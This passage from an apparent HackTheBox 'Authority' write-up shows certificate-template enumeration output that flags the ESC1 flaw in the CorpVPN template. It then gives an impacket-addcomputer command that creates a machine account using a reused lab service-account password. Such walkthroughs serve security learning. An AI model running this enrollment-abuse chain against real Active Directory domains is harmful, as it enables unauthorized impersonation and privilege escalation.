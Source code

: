 ```
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

We can see that all domain computers able to enroll to the **CorpVPN** certificate template. This can be abused to create a certificate impersonating any user. The only issue at this point is that it's only valid for domain computers and we don't have a domain computer account yet. Well by default low privilege users are allowed to enroll up to 10 machines into the active directory creating a computer account. We can do this using the following command using impacket. For ease of use I'm going to be re-using the password found earlier.

```bash
impacket-addcomputer -computer-name 'Calico$' -computer-pass 'lDaP_1n_th3_cle4r!' -dc-host 10.10.11.222 -domain-netbios 'authority.htb' 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'
```
![Computer account made](/assets/img/Authority/Authority_10.png)
